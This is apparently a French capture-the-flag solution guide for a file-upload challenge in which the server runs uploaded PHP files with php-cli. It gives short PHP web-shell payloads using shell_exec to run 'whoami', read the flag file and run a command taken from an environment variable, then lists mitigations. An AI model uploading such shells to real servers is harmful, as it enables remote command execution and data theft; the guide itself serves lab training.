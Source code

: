# Upload — Guide de résolution

## Contexte du challenge
Le serveur accepte plusieurs extensions et propose un « aperçu » selon le type de fichier. Particularités importantes:
- Extensions autorisées: png, jpg, jpeg, gif, svg, txt, log, md, html, htm, php.
- Pour les fichiers .php, le backend exécute le script avec php-cli (ligne de commande), capture stdout/stderr et affiche le résultat dans un bloc « Sortie PHP ».
- Il n’y a PAS de serveur web PHP: pas de Apache/nginx, pas de php-fpm. Donc pas de contexte HTTP côté PHP.
	- Conséquence: `$_GET`, `$_POST`, `$_SERVER` n’ont pas les valeurs habituelles; un paramètre `?cmd=` dans l’URL n’est pas transmis au processus CLI.
	- Le HTML émis par le script est affiché comme du texte (dans un `<pre>`), il n’est pas « rendu » en tant que page interactive.

## Objectif
Exécuter une commande côté serveur pour lire le flag monté dans le conteneur (chemin: `/app/flag.txt`).

## Étapes rapides
1) Créez un fichier `shell.php` avec un payload CLI simple, par exemple:
```php
<?php echo shell_exec('whoami 2>&1');
```
Téléversez-le, puis ouvrez l’URL d’aperçu: `/uploads/shell.php`. Vous devriez voir « Sortie PHP (code 0) » suivie du résultat.

2) Lisez le flag:
```php
<?php echo shell_exec('cat /app/flag.txt 2>&1');
```
Upload → ouvrez `/uploads/<votre_fichier>.php` → la sortie doit afficher `CTF{...}`.

## Variantes et astuces
- Timeout: l’exécution PHP est limitée à ~5s. Évitez les commandes longues/bloquantes.
- Binaries disponibles: l’image est minimale. Certaines commandes (ex: `ping`, `ifconfig`) peuvent être absentes.
- Noms avec espaces/accents: l’interface encode l’URL automatiquement; les liens devraient fonctionner (ex: `Capture d’écran.png`).
- Si vous tenez à un « web shell » interactif: utilisez des sources compatibles CLI (argv/env). Exemple:
	```php
	<?php $cmd = getenv('CMD') ?: 'id'; echo shell_exec($cmd.' 2>&1');
	```
	(Par défaut, l’application ne transmet pas de variables au process PHP.)

## Mitigations (hors CTF)
- Ne jamais exécuter le contenu téléversé. Servez les fichiers en statique et/ou via un CDN.
- Restreindre strictement les extensions, vérifier le type MIME, renommer/sandboxer.
- Isoler l’espace de stockage (permissions, chroot/jail) et désactiver l’exécution.